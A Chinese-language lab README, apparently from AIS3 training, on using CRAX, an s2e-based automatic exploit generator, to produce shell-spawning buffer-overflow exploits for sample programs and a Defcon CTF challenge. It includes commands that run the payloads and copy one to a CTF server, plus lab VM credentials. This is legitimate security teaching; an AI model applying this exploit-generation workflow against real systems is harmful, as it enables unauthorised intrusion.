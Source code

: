 # CRAX lab
**CRAX** 是 SQLab 所發展的 Automatic Exploit Generator (AEG)  
**CRAX** 的原理是透過 symbolic execution 判斷 eip 是否能被 input tainted  
如果一旦偵測到被 tainted 到  
會將目前收集到的 path constraint 加上 shellcode constraint  
以 SMT solver 嘗試去解可能的 input  

**CRAX** 採用的 symbolic execution engine 是基於 KLEE 更改來的 **s2e**  
**s2e** 是 **select symbolic execution** 的縮寫  
只對特定的程式區間做 symbolic execution  
改進 symbolic exection 指數成長的缺點  
可以支援 x86, x64, arm 平台  
詳細可以參考: [https://s2e.epfl.ch/](https://s2e.epfl.ch/)  

* * *
host & guest 的帳密皆為 `ais3 / crax`
* * *

## lab 1-1
**lab 1-1** 將介紹利用 **s2e** 提供的 api 對程式 make symbolic 的流程  
[sample.c](http://123.tw) 是一個很簡單的 buffer overflow 的小程式  
其中第 12 行 `s2e_make_concolic` 將對某一段 buffer make symbolic  
當 guest 執行到第 12 行就會開始進行 symbolic execution, 直到程式結束  
本實驗將展示透過 **CRAX** 自動去生成 shellcode  

1. 開啟 vm (host) 後, 在 `~/crax/script/result` 底下啟動 **CRAX**  
 - `crax.sh crax.s2e demo` (host)
2. 啟動後會用 qemu 開啟一個 debian 的 vm (guest), 在 `~/sample/` 底下執行跑 `run.sh`  
 - `cd sample && ./run.sh` (guest)
3. host 上的 **CRAX** 會開始生 exploit, exploit 會在 `~/crax/script/result/s2e-last` 底下  
 - exploit 可能會不只一個, width 較長的 exploit 比較容易成功  
 - `cd s2e-last && ls exploit*` (host)
 - _exploit-bfffe818.bin  exploit-bffff819.bin_
4. 用一般的 qemu 再次啟動 guest, 並將 exploit 傳進 guest  
 - `raw_net.sh sample.raw` (host)
 - `scp -P2222 exploit-xxxxxxxx localhost:~/sample.exp` (host)
5. 測試 payload 是不是能成功拿到 shell  
 - `sample/sample $(cat sample.exp)` (guest)

## lab 1-2
**lab 1-2** 將介紹在沒辦法取得原始碼的情況下進行 symbolic execition  
[sample2.c](http://123.tw) 與 sample.c 基本上一模一樣, 除了少 `s2e_make_concolic` 那一行  
本實驗將透過 symbolic wrapper 對受測程式做 symbolic  

1. 開啟 vm (host) 後, 在 `~/crax/script/result` 底下啟動 **CRAX**  
 - `crax.sh crax.s2e demo` (host)
2. 啟動後會用 qemu 開啟一個 debian 的 vm (guest), 在 `~/sample/` 底下執行跑 `run2.sh`, 與 **lab 1-1** 的差別是, 這次透過 `~/wrapper` 底下的 `symarg` make symbolic 間接執行程式   
 - `cd sample && ./run2.sh` (guest)
3. host 上的 **CRAX** 會開始生 exploit, exploit 會在 `~/crax/script/result/s2e-last` 底下  
 - `cd s2e-last && ls exploit*` (host)
 - _exploit-bfffe818.bin  exploit-bffff819.bin_
4. 再次啟動 **CRAX**, 透過 s2eget 指令取得 exploit  
 - `crax.sh crax.s2e demo` (host)
 - `cp exploit-xxxxxxxx ~/crax/share/sample2.exp` (host)
 - `s2eget sample2.exp` (guest)
5. 測試 payload 是不是能成功拿到 shell  
 - `sample/sample2 $(cat sample2.exp)` (guest)

## lab 1-3
*lab 1-3* 將使用 **CRAX** 測試 AIS3 Day 2 的練習題 **easy pwn**  
[stage2](http://123.tw) 是 **Defcon quals circa 2004** 的題目  
本實驗將使用 **CRAX** 自動生出 **easy pwn** 的 payload  

1. 開啟 vm (host) 後, 在 `~/crax/script/result` 底下啟動 **CRAX**  
 - `crax.sh crax.s2e demo` (host)
2. 啟動後會用 qemu 開啟一個 debian 的 vm (guest), 在 `~/easy_pwn/` 底下執行跑 `run.sh`  
 - `cd easy_pwn && ./run.sh` (guest)
3. host 上的 **CRAX** 會開始生 exploit, exploit 會在 `~/crax/script/result/s2e-last` 底下  
 - exploit 可能會不只一個, address 較低的 exploit 比較容易成功  
 - `cd s2e-last && ls exploit*` (host)
 - _exploit-bfffede4.bin  exploit-bffffde5.bin_
4. 再次啟動 **CRAX**, 透過 s2eget 指令取得 exploit  
 - `crax.sh crax.s2e demo` (host)
 - `cp exploit-xxxxxxxx ~/crax/share/stage2.exp` (host)
 - `s2eget stage2.exp` (guest)
5. 測試 payload 是不是能成功拿到 shell  
 - `easy_pwn/stage2 $(cat stage2.exp)` (guest)
6. 將 payload 上傳到題目環境
 - `scp exploit-xxxxxxxx ctf@52.27.26.147:/tmp/your_dir/stage2.exp` (host)
7. 在題目環境測試 payload 是否成功  
 - `ssh ctf@52.27.26.147` (host)
 - `/home/stage2/stage2 $(cat /tmp/your_dir/stage2.exp)` (remote)

## Appendix
前面的 lab 為了節省時間, 因此直接在已經建好 snapshot 的狀況下進行  
這邊補上完整的 s2e 操作流程:

0. 從 github 上下載 s2e (or CRAX) source, 到 `repo/qemu/` 底下編譯  
1. 建立 qemu img, 並安裝 guest os  
2. 用 s2e 編譯過的 qemu 開啟 guest, 並將受測程式上傳到 guest 並建置測試環境  
 - 建議加上 -net 參數方便傳檔及安裝軟體
3. 將剛才的 image 複製一份並以 `.s2e` 做結尾, 再次用 qemu 開啟 guest, 用 qemu 建立 snapshot
 - **此步驟不能加上 -net 參數**  
4. 用 s2e 模式開啟剛剛的 snapshot, 執行受測程式或 wrapper, 測試結果會在 `s2e-out-n` 底下  
5. 如果受測程式本身有 make symbolic, 需用 qemu 啟動 guest 並測試
6. 如果 image 被更動, 須重新建立 snapshot
